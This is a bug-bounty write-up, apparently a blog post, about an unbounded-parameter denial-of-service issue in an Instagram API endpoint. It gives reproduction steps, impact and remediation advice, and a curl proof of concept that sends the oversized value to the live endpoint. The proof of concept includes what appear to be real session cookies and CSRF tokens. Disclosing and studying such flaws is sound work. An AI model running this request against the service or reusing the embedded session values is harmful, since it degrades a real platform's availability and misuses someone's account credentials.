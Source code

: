 ```yaml
---
layout: single
title: Instagram - DoS via Unbounded max_number_to_display Parameter AYML API
excerpt: "Denial of Service vulnerability in Instagram causing a specific message thread to become unusable. Out of scope for Meta’s bug bounty program due to available self-mitigation (e.g., deleting the thread)."
date: 2025-07-29
classes: wide
header:
  teaser: /img2/images/hackerone.png
  teaser_home_page: true
  icon: /img2/images/hackeronelogo.png
categories:
  - Bug Bounty
  - Web
tags:
  - Burpsuite
  - DoS
  - API
---
```


![](/img2/Pasted%20image%2020250729234049.png)

## Summary

A POST request to the endpoint '/api/v1/discover/ayml/' on Instagram accepts a 'max_number_to_display' parameter with no apparent upper bound. By setting this parameter to an extremely large value (e.g., 9999999999), the server takes approximately 20 seconds to respond and returns a 560/566 Internal Server Error.

This behavior can be reliably reproduced and may lead to a resource exhaustion or logical Denial of Service (DoS) condition. An attacker could abuse this with minimal effort to degrade performance or stability of backend components.

## Steps to Reproduce

- Endpoint:

```
POST https://www.instagram.com/api/v1/discover/ayml/
```

- Headers (required):

```
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
```

- Request Body:

```
max_id=%5B%5D&max_number_to_display=9999999999&module=discover_people&paginate=true
```

## Observed Behavior

- The server takes ~20 seconds to respond.

- The response is a 560/566 Internal Server Error.

- The behavior is consistent and reproducible.

- Reducing the number to a reasonable value (e.g., 100) avoids the issue completely.

## Impact

- This vulnerability may allow an attacker to:

	- Generate sustained backend load with low effort.

	- Cause multiple concurrent slow requests that degrade service availability.

	- Perform a logical DoS without triggering WAFs or rate limits (assuming authenticated sessions).

- This also indicates a lack of proper input validation and resource control.

## Suggested Remediation

- Apply strict server-side validation for max_number_to_display to enforce reasonable upper bounds (e.g., max 500).

- Reject or clamp unusually high values to prevent backend overload.

- Log abuse patterns for this parameter to identify potential abuse at scale.

## Proof of Concept Script (bash)

- Proof of Concept

```bash
curl --path-as-is -i -s -k -X POST \
  -H 'Host: www.instagram.com' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate, br' \
  -H 'X-Csrftoken: o4KGwJpvN0RZ16gkpviIf86b7gHakMXU' \
  -H 'X-Instagram-Ajax: 1025186983' \
  -H 'X-Ig-App-Id: 936619743392459' \
  -H 'X-Asbd-Id: 359341' \
  -H 'X-Ig-Www-Claim: hmac.AR1AQb6TXgWPd4C48BvCGyASfCm4XqPjjOBfDXuU4qJD68p6' \
  -H 'X-Web-Session-Id: 1pl63y:afuedo:xll9x6' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H 'Origin: https://www.instagram.com' \
  -H 'Referer: https://www.instagram.com/explore/people/' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Te: trailers' \
  -b 'datr=ZmaCaHRv5mShWpLhF76V6FEY; ig_did=16BBD5A7-D00B-450E-89EA-6976AAEAA051; mid=aIJmZgAEAAHV31vsZ0qp1dURspV1; wd=1886x877; csrftoken=o4KGwJpvN0RZ16gkpviIf86b7gHakMXU; sessionid=74249493484%3A2m2JqdQLvaW7ur%3A23%3AAYdFI3BENmvs-DhTggtIVqaMG9eMpWfriBiFPCuNrQ; ds_user_id=74249493484; rur="CLN\05474249493484\0541785089902:01fe120fbf1aa61b7a70f4c73f65ec48549c7b7b91f966037a7303075102815021a6fded"' \
  --data-binary 'max_id=%5B%5D&max_number_to_display=9999999999&module=discover_people&paginate=true&jazoest=22745' \
  'https://www.instagram.com/api/v1/discover/ayml/' \
  -w '\nTotal time: %{time_total} seconds\n'
```

- Output 

![](/img2/Pasted%20image%2020250726235839.png)

## Proof of Concept BurpSuite

![](/img2/Pasted%20image%2020250729185334.png)

![](/img2/Pasted%20image%2020250729185456.png)